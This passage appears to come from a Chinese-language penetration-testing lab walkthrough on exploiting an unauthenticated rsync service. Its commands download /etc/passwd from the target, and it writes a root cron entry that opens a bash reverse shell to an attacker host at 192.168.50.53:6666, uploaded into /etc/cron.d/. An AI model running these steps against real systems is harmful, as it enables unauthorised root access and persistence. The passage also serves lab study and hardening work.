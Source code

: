 ### 3.2.3 访问rsync服务
```
rsync -avz test@192.168.50.227::
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175136992-d0483e50-4d7d-413e-871c-e21d88b6938b.png" /></div>


若服务端SSH为非标准端口，可通过rsync的-e参数进行端口指定。
```
rsync -avz -e "ssh -p888" test@192.168.50.227::src
```

### 3.2.4 上传文件
```
rsync -avz /tmp/test1.txt test@192.168.50.227::src/tmp/
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175137092-2e994d52-6b5a-49d1-9e40-7e65f519229e.png" /></div>


### 3.2.5 下载文件
```
rsync -avz test@192.168.50.227::src/etc/passwd /tmp
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175137022-650ce448-71a6-4b30-b348-8dcc0deb163f.png" /></div>


### 3.2.6 通过写cron任务反弹shell
在`cron.d`增加定时任务 当我们要增加全局性的计划任务时，一种方式是直接修改`/etc/crontab`。但是，一般不建议这样做，`/etc/cron.d/`目录就是为了解决这种问题而创建的。

cron 执行时，要读取三个地方的配置文件：一是`/etc/crontab`，二是`/etc/cron.d`目录下的所有文件，三是每个用户的配置文件。

所以cron进程执行时，就会自动扫描`/etc/cron.d/`目录下的所有文件，按照文件中的时间设定执行后面的命令。

1、在本地编辑一个`crontab`文件
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*  *    * * *   root    bash -c "bash -i >& /dev/tcp/192.168.50.53/6666 0>&1"
#
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175131019-f02360e0-60a4-44b3-9622-40a9a6fba00a.png" /></div>


2、上传`crontab`文件到靶机的`/etc/cron.d/`目录下
```
rsync -avz /tmp/crontab test@192.168.50.227::src/etc/cron.d/
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175131298-58f7431a-0145-4d60-bb07-f9022fb06d07.png" /></div>
